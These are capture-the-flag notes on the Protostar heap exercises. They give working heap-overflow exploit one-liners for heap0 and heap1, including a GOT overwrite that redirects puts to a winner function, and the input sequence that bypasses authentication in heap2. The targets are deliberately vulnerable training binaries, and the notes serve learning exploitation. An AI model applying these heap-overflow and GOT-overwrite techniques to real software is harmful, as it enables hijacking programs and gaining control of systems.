 ##Heap0
* `objdump -t ./heap0 | grep winner`
```
08048464 g     F .text  00000014              winner
08048478 g     F .text  00000014              nowinner
```
* ./heap0 `python -c "print 'A'*72+'\x64\x84\x04\x08'"`

##Heap1
* `objdump -t ./heap1 | grep winner`
`08048494 g     F .text 00000025              winner`
* `objdump -TR ./heap1 | grep winner`
```
00000000      DF *UND*  00000000  GLIBC_2.0   puts
08049774 R_386_JUMP_SLOT   puts
```
* we use `ltrace` to know about the memory process
```
user@protostar:/opt/protostar/bin$ ltrace ./heap1 `python -c "print 'A'*4"` `python -c "print 'B'*4"`
__libc_start_main(0x80484b9, 3, 0xbffff884, 0x8048580, 0x8048570 <unfinished ...>
malloc(8)                                        = 0x0804a008
malloc(8)                                        = 0x0804a018
malloc(8)                                        = 0x0804a028
malloc(8)                                        = 0x0804a038
strcpy(0x0804a018, "AAAA")                       = 0x0804a018
strcpy(0x0804a038, "BBBB")                       = 0x0804a038
puts("and that's a wrap folks!"and that's a wrap folks!
)                 = 25
+++ exited (status 25) +++

```
* so what we need to do is to overwrite the `puts` to the `winner` address
* ./heap1 `python -c "print 'A'*20+'\x74\x97\x04\x08'"` `python -c "print '\x94\x84\x04\x08'"`

##Heap2
* To pass it we need change the `auth->auth` value to be non zero
* `ltrace ./heap2`
* well as the service will be write in the heap place of `stuct auth` so just need a long(for example 40) input `service+'A'*40` will overwrite `auth->auth`
* we need `auth admin` first and then `service9999999999999999999999999999999999` then `login`

##Heap3
* it mentioned "Doug Lea Malloc" so must be something like "Doug Lea Malloc attack"
